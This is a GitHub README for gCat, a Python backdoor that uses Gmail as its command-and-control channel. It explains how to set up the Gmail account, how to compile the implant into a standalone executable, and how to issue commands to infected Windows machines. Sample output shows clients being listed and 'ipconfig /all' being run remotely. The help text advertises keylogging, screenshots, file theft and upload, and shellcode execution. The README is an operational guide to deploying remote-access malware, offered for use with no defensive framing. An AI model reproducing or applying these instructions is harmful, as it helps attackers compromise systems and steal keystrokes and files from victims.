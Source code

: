 <p align="center">
 <img src="https://github.com/s1l3nt78/gcat/blob/master/.vs/gcat.png" alt="" />
</p>

# gCat
A stealthy Python based backdoor that uses Gmail as a command and control server

#  Original Author: <a href="https://github.com/byt3bl33d3r"><strong>byt3bl33d3r</strong></a>

    Redeveloping a new Version
    *s1l3nt78
    
 -----------------------------------------------------------------------------------------------------
 
## Setup 

For this to work you need:
- A Gmail account (**Use a dedicated account! Do not use your personal one!**)
- Turn on "Allow less secure apps" under the security settings of the account
- You may also have to enable IMAP in the account settings

--------------------------------------------------------------------------------------------------

PreReqs
--------
- <a href="https://www.python.org/ftp/python/2.7.13/python-2.7.13.msi">Python 2 (32-bit)</a>
- <a href="https://sourceforge.net/projects/pywin32/files/pywin32/Build%20217/pywin32-217.win32-py2.7.exe/download">PyWin32</a>
- <a href="https://files.pythonhosted.org/packages/52/e5/0ce68034f3441bda11538162796dac5a8e5873e8af5d23aaea65e81c7e51/pyinstaller-2.0.zip">Pyinstaller (<strong>MUST BE VERSION 2</strong>)</a>
- <a href="https://github.com/upx/upx/releases/download/v3.96/upx-3.96-win32.zip">UPX (optional)</a>

      Once you have downloaded the pyinstaller zip file from the link above, unzip it
      and move "implant.py" to the pyinstaller folder from the zip. 
      Ensure python2 is registered in your path then from the pyinstaller folder run:
        
      >  python pyinstaller.py --onefile implant.py

-----------------------------------------------------------------------------------------------------

This repo contains two files:
- ```gcat.py``` a script that's used to enumerate and issue commands to available clients
- ```implant.py``` the actual backdoor to deploy

In both files, edit the ```gmail_user``` and ```gmail_pwd``` variables with the username and password of the account you previously setup.

**Note: It's recommended you compile implant.py using a 32bit Python installation**

--------------------------------------------------------------------------------------------------------

# Usage

```
                                             dP   
                                             88   
                .d8888b. .d8888b. .d8888b. d8888P 
                88'  `88 88'  `"" 88'  `88   88   
                88.  .88 88.  ... 88.  .88   88   
                `8888P88 `88888P' `88888P8   dP   
                     .88                          
                 d8888P  
                     

                   .__....._             _.....__,
                     .": o :':         ;': o :".
                     `. `-' .'.       .'. `-' .'   
                       `---'             `---'  

             _...----...      ...   ...      ...----..._
          .-'__..-''----    `.  `"`  .'    ----'''-..__`-.
         '.-'   _.--'''       `-._.-'       ''''--._   `-.`
         '  .-"'                  :                  `"-.  `
           '   `.              _.'"'._              .'   `
                 `.       ,.-'"       "'-.,       .'
                   `.                           .'
              jgs    `-._                   _.-'
                         `"'--...___...--'"`

                     ...IM IN YURR COMPUTERZ...

                        WATCHIN YURR SCREENZ

optional arguments:
  -h, --help            show this help message and exit
  -v, --version         show program's version number and exit
  -id ID                Client to target
  -jobid JOBID          Job id to retrieve

  -list                 List available clients
  -info                 Retrieve info on specified client

Commands:
  Commands to execute on an implant

  -cmd CMD              Execute a system command
  -download PATH        Download a file from a clients system
  -upload SRC DST       Upload a file to the clients system
  -exec-shellcode FILE  Execute supplied shellcode on a client
  -screenshot           Take a screenshot
  -lock-screen          Lock the clients screen
  -force-checkin        Force a check in
  -start-keylogger      Start keylogger
  -stop-keylogger       Stop keylogger

Meow!

```

- Once you've deployed the backdoor on a couple of systems, you can check available clients using the list command:
```
#~ python gcat.py -list
f964f907-dfcb-52ec-a993-543f6efc9e13 Windows-8-6.2.9200-x86
90b2cd83-cb36-52de-84ee-99db6ff41a11 Windows-XP-5.1.2600-SP3-x86
```
The output is a UUID string that uniquely identifies the system and the OS the implant is running on


- Let's issue a command to an implant:
```
#~ python gcat.py -id 90b2cd83-cb36-52de-84ee-99db6ff41a11 -cmd 'ipconfig /all'
[*] Command sent successfully with jobid: SH3C4gv
```
Here we are telling ```90b2cd83-cb36-52de-84ee-99db6ff41a11``` to execute ```ipconfig /all```, the script then outputs the ```jobid``` that we can use to retrieve the output of that command

- Lets get the results!
```
#~ python gcat.py -id 90b2cd83-cb36-52de-84ee-99db6ff41a11 -jobid SH3C4gv     
DATE: 'Tue, 09 Jun 2015 06:51:44 -0700 (PDT)'
JOBID: SH3C4gv
FG WINDOW: 'Command Prompt - C:\Python27\python.exe implant.py'
CMD: 'ipconfig /all'


Windows IP Configuration

        Host Name . . . . . . . . . . . . : unknown-2d44b52
        Primary Dns Suffix  . . . . . . . : 
        Node Type . . . . . . . . . . . . : Unknown
        IP Routing Enabled. . . . . . . . : No
        WINS Proxy Enabled. . . . . . . . : No

-- SNIP --
```

- That's the gist of it! But you can do much more as you can see from the usage of the script! ;)

-----------------------------------------------------------------------------------------------

# To Do

- Multi-platform support
- ~~Command to upload files~~
- Transport crypto & obfuscation
